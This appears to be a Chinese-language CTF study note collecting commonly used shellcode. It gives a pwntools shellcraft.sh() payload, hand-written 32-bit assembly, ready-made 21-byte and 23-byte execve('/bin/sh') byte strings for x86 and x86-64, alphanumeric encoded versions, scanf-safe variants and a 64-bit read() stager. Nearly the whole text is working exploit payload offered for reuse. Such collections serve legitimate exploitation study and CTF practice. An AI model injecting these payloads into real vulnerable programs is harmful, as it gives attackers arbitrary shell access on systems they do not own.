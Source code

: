 

**shellcode数据库**：[Shellcodes database for study cases (shell-storm.org)](http://www.shell-storm.org/shellcode/index.html)



## 常用shellcode

最好直接用21Bytes和23Bytes的。

### pwntools

```
context(xxx="xxx")

payload = asm(shellcraft.sh())
```



### 32位

```python
shellcode = asm('''push eax
                    pop ebx 
                    push edx
                    pop eax
                    dec eax
                    xor al,0x46
                    xor byte ptr[ebx+0x35],al #set int 0x80
                    xor byte ptr[ebx+0x36],al
                    push ecx 
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push ecx
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push ecx
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push ecx # set al=0xb
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push edx  # set ecx=0
                    pop ecx
                    push 0x68 # push /bin/sh
                    push 0x732f2f2f
                    push 0x6e69622f
                    push esp
                    pop ebx''') 
```

**21Bytes**:

```
b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'
```

**ascii**:

```
'PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA'
```

**for scanf**:

```
'\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh'
```



### 64位

```python
# read(0,0xcafe0000,0x1000)
shellcode = asm("""
    xor eax, eax /* SYS_read */
    xor edi, edi /* 0 */
    mov edx, 0x1000
    mov esi, 0xcafe0000
    syscall
""")
```



**23Bytes**

```
"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```



```
'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
```



**ascii**

```
"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
```



**for scanf**

```
'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05'
```



